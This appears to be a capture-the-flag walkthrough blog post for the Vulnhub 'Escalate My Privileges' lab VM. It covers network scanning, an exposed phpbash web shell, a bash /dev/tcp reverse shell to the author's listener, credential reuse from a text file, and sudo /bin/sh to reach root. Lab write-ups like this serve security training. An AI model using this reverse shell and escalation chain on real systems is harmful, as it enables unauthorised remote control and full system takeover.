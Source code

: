 ```yaml
---
published: true
layout: post
category: Vulnhub
title: Escalate My Privileges
author: F3dai
image: https://imgur.com/1H07JlN.png
---
```


This VM is made for playing with privileges. As its name, this box is specially made for learning and sharpening Linux Privilege Escalation skills. There are number of ways to playing with the privileges. Goal: First get the User of the Target then Start Playing with Privileges.

**URL:** [Escalate Privs Vulnhub](https://www.vulnhub.com/entry/escalate-my-privileges-1,448/)

**Difficulty:** Easy / Beginner Level

**Author:** Akanksha Sachin Verma

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![netdiscover](https://imgur.com/ZXbe7TE.png)

The IP 192.168.56.113 has been found so we will do a port scan with the following IP:

<pre>nmap -p- -i "nmap" -sS 192.168.56.113</pre>

Nmap will scan every port with -p-, save to file -o and TCP SYN scan -sS.

![nmap](https://imgur.com/9oFhuw8.png)

Port 22, 80 and 111 is open. I will be focusing on port 80 for my enumeration however it's worth looking at port 111 to see if there are any mountable file systems. I won't go down this route but [this](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) website has a section on it. 

Opening up port 80 in a browser, we get this:

![p80](https://imgur.com/76wn0qP.png)

The nmap scan identified a robots.txt file which is worth checking out. Go to 192.168.56.113/robots.txt and there is an entry with the following:

<pre> - User-agent: *
Disallow: /phpbash.php</pre>

This means they do not want that page to be shown in google so we'll check it out anyway.

Going to 192.168.56.113/phpbash.php gives us the following page:

![phpbash](https://imgur.com/nQxbms3.png)

We already have a lower priv shell with the ID "apache". We are currently in the www/html directory where the web files are kept. 

### Upgrade Shell

Upgrading to a reverse shell will be easier to work with. I use [this website](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to decide how I will get a reverse shell. Simply use the bash 'one-liner' and listen to a chosen port. 

<pre>bash -i >& /dev/tcp/192.168.56.101/4545 0>&1 </pre>

![rev_shell](https://i.imgur.com/QYgCcDI.png)

In this case, the reverse shell will be aimed at my local IP 192.168.56.101 on port 4545. Therefore set up a netcat listener on this port.

Make sure the netcat is set up before the command is executed. 

<pre>nc -nvlp 4545</pre>

Then execute the reverse shell and a connection should be established with user "apache".

![netcat](https://i.imgur.com/AFYGLzO.png)

### Privilege Escalation

After some enumeration, some files are found in the home directory of "armour". The contents of Credentials.txt reveal a password with md5(). Md5 is an algorithm that is widely used for hash functions producing a 128-bit hash value.

The md5 value has been shown by echo.

<pre>cd /home/armour
ls -la
cat Credentials.txt
echo -n "rootroot1" | md5sum </pre>

![md5](https://imgur.com/BJ1q5M4.png)

Let's try and use this password for the user "armour" by changing the user with the following command:

<pre>su armour</pre>

![armour](https://imgur.com/iJDJnlr.png)

The password is correct, we now have a new shell with ID armour. Make sure to upgrade the shell.

<pre>id
python3 -c 'import pty;pty.spawn("/bin/bash")'</pre>

First thing to do is to check the sudo privileges:

<pre>sudo -l</pre>

![sudo-l](https://imgur.com/qfvwZll.png)

There is a huge amount of options to explore however just by exploiting the first entry /bin/sh should give sudo privileges.

<pre>sudo /bin/sh</pre>

![root](https://imgur.com/aETTEPy.png)

And there is the flag in /root.
